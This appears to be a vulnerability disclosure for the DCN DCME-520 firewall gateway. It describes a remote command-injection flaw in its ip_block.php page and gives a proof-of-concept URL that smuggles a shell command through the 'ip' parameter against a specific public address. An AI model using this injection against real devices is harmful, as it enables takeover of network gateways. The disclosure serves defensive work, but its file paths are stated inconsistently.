




#  DCME introduce

DCME-520 multi-core egress gateway adopts multi-core high-performance processor, combined with dedicated ASIC switching chip, which is a new generation of high-performance Internet egress gateway for the business needs of large-capacity users, multi-traffic flow, and multi-service types.DCME-520 has excellent performance and powerful data processing capability, and compared with traditional firewalls, broadband routers, DCME-520 has a super-high wire-speed throughput and industry-leading new connection capability. DCME-520 integrates broadband routing, firewall, switch, VPN, traffic management and monitoring, intranet security, wireless controller, etc. The redundant design of dual power supply increases the reliability of the whole machine, and it can be used with DCN Intelligent Cloud Center to realize cloud management, flexible authentication, network diagnostics, data statistics and other cloud and data applications. Cloud and data applications. Simple and easy to use configuration is especially suitable for large and medium-sized enterprises, campuses, governments, chain organizations, star-rated hotels, carriers and other complex network application environments.

# Vulnerability description

There is a security vulnerability in DCN Firewall DCME-520, which originates from a user controllable parameter in the file/var/local/ww/function/audit/newstatistics/ip-block.chp that includes remote command execution (RCE).

> DCME-520 Project address
> 
> https://www.dcnetworks.com.cn/ruanjian.html

After downloading the binary file, we use the binwalk command to separate the file and obtain the source code.

```
# binwalk -Me --run-as=root DCME-520-9.1.5.11.bin 
```

The location of the vulnerability code is in the device system at/usr/local/ww/function/audit/newstatistics/ip-block.chp



# Vulnerability verification

Log in to the web management backend and access the URL where the vulnerability is located:`http://122.225.192.114:8081/function/audit/newstatistics/ip_block.php`



Construct payload:`http://122.225.192.114:8081/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;echo hyhy123 > 1.txt;`

Create a txt file and write its contents.



Accessing the 1.txt file, it was found that the creation and writing were successful.



# The affected version

- DCME-520-9.25.5.11
- DCME-520-8.25.2.44

# Repair suggestions

Modify web backend PHP code to control or filter related parameters